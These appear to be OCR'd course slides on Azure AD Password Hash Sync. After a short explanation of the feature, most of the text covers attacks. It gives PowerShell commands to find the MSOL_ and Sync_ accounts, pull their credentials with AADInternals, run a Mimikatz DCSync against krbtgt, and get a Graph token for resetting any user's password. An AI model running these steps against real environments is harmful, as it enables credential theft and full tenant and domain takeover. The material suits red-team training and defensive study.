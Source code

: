 * It synchronizes users and a hash of their password hashes (not clear-text or original hashes) from on-prem AD to Azure AD.
* The simplest and most popular method for getting a hybrid identity.
* PHS is required for features like Identity Protection and AAD Domain Services.
* Hash synchronization takes place every two minutes.
* When a user tries to access any Azure resource, the authentication takes place on Azure AD.
* Built-in security groups are not synced.
* By default, password expiry and account expiry are not reflected in Azure AD. That means a user whose on-prem password is expired (not changed) can continue to access Azure resources using the old password.

## Hybrid Identity - PHS

## Hybrid Identity - PHS - Abuse

* When PHS is configured :
  * An account with name MSOL\_ is automatically created in on- premAD. For example, MSOL\_782bef6aa0a9. This account has replication (DCSync) permissions in the on-prem AD.
  * An account Sync\_\_installationIDis created in Azure AD. For example, Sync\_DEFENG-ADCNCT\_782bef6aa0a9.This account can reset password of ANY user (synced or cloud only) in Azure AD.
* Passwords for both the accounts are stored in SQL server on the server where Azure AD Connect is installed and it is possible to extract them in clear-text if you have admin privileges on the server.

## Lateral Movement - PHS

* You can enumerate the server where Azure AD connect is installed using the following on-prem enumeration (assuming that the server is domain joined - which is the Microsoft recommended method) - Using the ActiveDirectory module: Get-ADUser -Filter "samAccountName -like 'MSOL\_\*'" - Properties \* | select SamAccountName,Description | fl
* Or from Azure AD (below command uses the Azure AD module) Get-AzureADUser -All $true | ?{$_.userPrincipalName - match "Sync_"}

## Lateral Movement - PHS - On-Prem Dominance

* Once the Azure AD connect server is compromised. Use the below commands from the AADInternals module to extract credentials. Get-AADIntSyncCredentials
* Using the creds of MSOL\_\* account, we can run DCSync against the on- prem AD runas /netonly /user:defeng.corp\MSOL\_782bef6aa0a9 cmd Invoke-Mimikatz -Command '"lsadump::dcsync /user:defeng\krbtgt /domain:defeng.corp /dc:defeng- dc.defeng.corp"'

## Lateral Movement - PHS - On-Prem to Cloud

* Using the creds of Sync\_\* account, we can reset password for any user (including Global Administrators and even the user who created the tenant).
* Using the creds, request an access token for AADGraph and save it to cache $passwd = ConvertTo-SecureString '' -AsPlainText - Force $creds = New-Object System.Management.Automation.PSCredential ("Sync\_DEFENG- ADCNCT\_782bef6aa0a9@defcorpsecure.onmicrosoft.com", $passwd) Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache
